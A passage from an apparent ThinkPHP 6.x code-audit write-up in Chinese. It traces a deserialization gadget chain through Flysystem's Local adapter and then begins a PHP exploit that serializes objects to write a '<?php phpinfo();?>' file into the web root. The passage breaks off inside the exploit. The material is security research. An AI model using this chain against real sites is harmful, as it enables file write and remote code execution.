 > 查看源码后发现 `src/Adapter/Local.php` 中的 `Local` 类符合要求，先跟进一下 `has()` 方法

<img src="./ThinkPHP6.x 代码审计/tp6-pop-3-4.png" alt="">

> 跟进 `applyPathPrefix()` 方法，其先调用了前面的 `getPathPrefix()` 方法，其中 `$pathPrefix` 是可控的，`ltrim()` 方法删除字符串开头的 `/` 和 `\`，因此可以直接传入一个文件名，然后控制 pathPrefix 为路径部分，再回到 `has()` 方法执行 `file_exists()` 方法，只需要保证传入的文件名不存在即可返回 false

<img src="./ThinkPHP6.x 代码审计/tp6-pop-3-5.png" alt="">

> 再来看看 `write()` 方法，`$location` 的值来源于 `$this->file` 传入 `applyPathPrefix` 处理后的文件名，`$contents` 的值是经过 `json_encode` 处理后带有文件内容的 json 数据

<img src="./ThinkPHP6.x 代码审计/tp6-pop-3-6.png" alt="">

### exp
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
```